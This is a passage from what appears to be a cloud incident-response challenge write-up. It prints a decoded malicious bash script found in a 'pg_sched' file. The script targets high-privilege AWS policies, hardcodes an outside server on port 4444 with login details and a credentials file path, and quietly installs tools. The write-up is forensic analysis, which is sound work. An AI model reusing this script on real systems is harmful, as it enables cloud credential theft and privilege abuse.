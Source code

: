 ![img-description](/assets/img/Wiz-Cloud-IR-Challenge/20250508151258.png)
_Output of the pg\_sched file_

After base64 decoding the object, we ended up with the following script:
```
#!/bin/bash

# List of interesting policies
VULNERABLE_POLICIES=("AdministratorAccess" "PowerUserAccess" "AmazonS3FullAccess" "IAMFullAccess" "AWSLambdaFullAccess" "AWSLambda_FullAccess")

SERVER="34.118.239.100"
PORT=4444
USERNAME="FizzShadows_1"
PASSWORD="Gx27pQwz92Rk"
CREDENTIALS_FILE="/tmp/c"

SCRIPT_PATH="$(cd -- "$(dirname -- "${BASH_SOURCE[0]}")" &>/dev/null && pwd)/$(basename -- "${BASH_SOURCE[0]}")"

# Check if a command exists
check_command() {
    if ! command -v "$1" &> /dev/null; then
        install_dependency "$1"
    fi
}

# Install missing dependencies
install_dependency() {
    local package="$1"
    if [[ "$package" == "curl" ]]; then
        apt-get install curl -y &> /dev/null
                yum install curl -y &> /dev/null
    elif [[ "$package" == "unzip" ]]; then
        apt-get install unzip -y &> /dev/null
```